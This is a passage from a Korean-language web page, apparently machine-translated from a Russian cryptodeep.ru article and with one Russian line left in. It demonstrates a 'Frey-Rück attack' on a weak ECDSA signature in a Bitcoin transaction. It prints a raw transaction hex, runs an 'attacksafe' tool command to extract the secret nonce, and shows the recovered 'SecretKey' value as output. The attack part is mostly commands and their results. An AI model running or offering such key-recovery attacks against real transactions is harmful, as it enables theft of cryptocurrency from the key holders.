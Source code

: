 

<p>취약한 ECDSA 서명 트랜잭션에서 비밀 키를 얻기 위해 데이터를&nbsp;<code>RawTX</code>텍스트 문서에 추가하고 파일로 저장해 봅시다.<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool frey_ruck_attack</code>소프트웨어를 사용하여&nbsp;실행<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool frey_ruck_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-49-1024x318.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-980"/></figure>



<p>우리는 이 공격을 시작했고&nbsp;<code>-tool frey_ruck_attack</code>그 결과는 파일에 저장되었습니다.<code>SecretKey.txt</code></p>



<p>이제 성공적인 결과를 보려면 파일을 엽니다.<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-51-1024x484.png" alt="비밀 키 &quot;K&quot;(NONCE)를 얻기 위해 Frey-Rück 공격을 구현합니다." class="wp-image-986"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x80ae47bd5353515bc5c39bad5a9ac124b0be808260bbaf1cda1458a078f0c226

RawTX = 01000000011c2b74d4b3ccdd96201841bce8931efa4b40c0dcd11ce52bafe3167bc5c7f741120000006b483045022003af10d2cd5db13bacedc903c00a76d93d1e1749fff30d030bdf13ead615e644022100a66c5b518e61b1dd3b9e27068bcd5286d32690023fa69b845972e4b09800ac8a012103f3b587144f038f7fd504eaebb2159ad97c0ca33c3cbaf7f3899849a9e2c9074bffffffff010000000000000000046a02585800000000</code></pre>



<p><code>"Deployments ECDSA"</code>우리는 비트코인 ​​블록체인 트랜잭션의 치명적인 취약점을 의미하는&nbsp;비문을 봅니다 .</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>

